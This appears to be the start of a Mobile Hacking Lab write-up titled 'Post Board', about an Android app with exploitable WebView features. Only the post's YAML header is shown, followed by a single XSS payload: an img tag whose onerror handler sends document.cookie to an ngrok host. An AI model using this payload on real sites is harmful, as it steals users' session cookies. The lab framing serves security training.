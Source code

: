 ```yaml
---
author: pl4int3xt
layout: post
title: Lab - Post Board
date: '2024-05-22'
description: "Investigate a Android app where you can post messages with exploitable WebView functionalities."
cover: /img/cover_images/51.png
categories: [Mobile Hacking Lab]
---
```


<img src="non-existing-image.png" onerror="fetch('https://f452-105-231-69-149.ngrok-free.app/?cookie='+document.cookie); " />